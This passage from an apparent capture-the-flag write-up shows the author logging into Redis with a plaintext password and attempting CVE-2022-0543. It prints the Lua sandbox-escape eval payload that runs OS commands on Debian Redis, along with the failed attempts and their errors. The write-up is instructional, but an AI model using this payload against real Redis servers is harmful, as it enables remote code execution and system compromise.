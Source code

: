 

    dan_smith@shared:~$ redis-cli 
    127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
    OK
    127.0.0.1:6379> 



With access to Redis, I can write an SSH key as root. I'll go with the
one HackTricks calls "LUA Sandbox Bypass", or CVE-2022-0543.

### CVE-2022-0543

#### Enumeration

`info server` shows the Redis version:



    127.0.0.1:6379> info server
    # Server
    redis_version:6.0.15
    ...[snip]...



#### Exploit

The researcher who discovered CVE-2022-0543 describes it well in [this
post](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce).
It's actually a vulnerability in Debian where Redis is present. The
proof of concept looks like this:



    eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'



Running this directly won't work:



    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'
    (error) ERR wrong number of arguments for 'eval' command



That's because `eval` takes a minimum of two arguments, according to
[the docs](https://redis.io/commands/eval/). I'll give it a 0, and it's
a new error:



    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
    (error) ERR Error running script (call to f_9dde318a677aa429bd40e6b54cf363002dda0971): @user_script:1: user_script:1: attempt to call local 'os_l' (a nil value)
